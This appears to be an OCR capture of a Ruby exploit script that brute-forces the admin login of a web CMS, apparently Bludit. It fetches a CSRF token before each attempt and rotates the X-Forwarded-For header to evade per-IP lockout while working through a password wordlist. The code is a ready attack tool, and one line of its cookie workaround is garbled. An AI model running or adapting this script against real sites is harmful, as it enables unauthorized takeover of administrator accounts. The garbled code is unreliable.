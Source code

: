 ```ruby
  # -- Exploit code -- #
  # dirty workaround to remove this warning:
#   Cookie#domain returns dot-less domain name now. Use Cookie#dot_domain if you need "." at the beginning.
# see https://github.com/nahi/httpclient/issues/252
class WebAgent
  class Cookie < HTTP::Cookie
    def domainself.original_domain
    end
  end
end

def get_csrf(client, login_url)
  res = client.get(login_url)
  csrf_token = /input.+?name="tokenCSRF".+?value="(.+?)"/.match(res.body).captures[0]
end

def auth_ok?(res)
  HTTP::Status.redirect?(res.code) &&
    %r{/admin/dashboard}.match?(res.headers['Location'])
end

def bruteforce_auth(client, host, username, wordlist)
  login_url = host + '/admin/login'
  File.foreach(wordlist).with_index do |password, i|
    password = password.chomp
    csrf_token = get_csrf(client, login_url)
    headers = {
      'X-Forwarded-For' => "#{i}-#{password[..4]}",
    }
    data = {
      'tokenCSRF' => csrf_token,
      'username' => username,
      'password' => password,
    }
    puts "[*] Trying password: #{password}"
    auth_res = client.post(login_url, data, headers)
    if auth_ok?(auth_res)
      puts "\n[+] Password found: #{password}"
      break
    end
  end
end

#begin
#  args = Docopt.docopt(doc)
#  pp args if args['--debug']
#
#  clnt = HTTPClient.new
#  bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
#rescue Docopt::Exit => e
#  puts e.message
#end

```
